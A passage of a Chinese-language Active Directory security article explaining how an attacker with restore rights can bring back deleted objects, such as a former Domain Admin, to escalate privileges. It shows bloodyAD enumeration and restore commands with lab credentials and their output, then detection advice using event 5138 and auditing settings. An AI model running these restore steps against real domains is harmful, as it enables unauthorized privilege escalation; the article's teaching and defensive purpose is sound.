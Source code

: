 默认情况下，只有域管理员 (Domain Admins) 能够列出和恢复已删除的对象。  
  
尽管文档表明 SharpHound 可以检索已删除对象，但即使以域管理员身份运行，它也无法实现这一功能（参见BloodHound 文档）。 因此，BloodHound CE 无法检测来自已删除对象的权限提升机会。  
## 实际攻击场景  
  
当攻击者确保他们对已删除对象和组织单位 (OU) 拥有足够的权限，并且具备**恢复墓碑对象**  
(Restore Tombstoned) 权限时：  
```

$ bloodyAD --host 192.168.100.3 -d bloody -u john -p 'Password123!' get writable --include-del
[...]
distinguishedName: CN=garbage.admin\0ADEL:c9e8a129-f77f-4159-b700-3c8fd06963fe,CN=Deleted Objects,DC=bloody,DC=corp
permission: WRITE
[...]
DistinguishedName: CN=Users,DC=bloody,DC=corp
permission: CREATE_CHILD
```  
  
攻击者可以轻松地使用 sAMAccountName（安全账户管理器账户名）或 objectSID（对象安全标识符）来恢复该对象：  
```
$ bloodyAD -u john -d bloody -p 'Password123!' --host 192.168.100.3 set restore 'S-1-5-21-1394970401-3214794726-2504819329-1104'

[+] S-1-5-21-1394970401-3214794726-2504819329-1104 has been restored successfully under CN=garbage.admin,CN=Users,DC=bloody,DC=corp
```  
  
**示例场景：**  
- **场景 1: 恢复已删除的管理员用户**  
拥有恢复权限的攻击者可以恢复已删除的域管理员账户。由于该账户保留了其 SID(安全标识符) 和组成员身份，它会立即重新获得提升的访问权限。  
  
- **场景 2: SID 历史注入**  
恢复具有特权 SID 历史的已删除用户对象，并利用它绕过组成员身份检查。  
  
- **场景 3: ACL(访问控制列表) 利用**  
已删除的组仍然在关键资源的 ACL 中被引用。攻击者恢复该组并将自己加入其中，从而获得访问权限。  
  
对于想要练习的用户，有一个名为TombWatcher的 HTB(Hack The Box) 机器。  
## 检测与防御  
  
为了防御这些威胁，安全团队可以：  
- **监控恢复操作**  
跟踪谁在何时恢复了对象。这可以通过事件日志和 SIEM(安全信息和事件管理) 集成来实现。 以下是使用事件日志中的_A directory service object was undeleted_事件 5138 的方法：  
  
- 无论是否启用回收站，都要确保启用Directory Service Changes  
(目录服务更改) 审计：  
```
AuditPol /set /subcategory:"Directory Service Changes" /success:enable /failure:enable
```  
  
  
-   
-   
- 或者通过组策略 (Group Policy) 进行配置：计算机配置 > 策略 > Windows设置 > 安全设置 > 高级审核策略配置 > 审核策略 > DS访问 > 启用审核目录服务更改  
  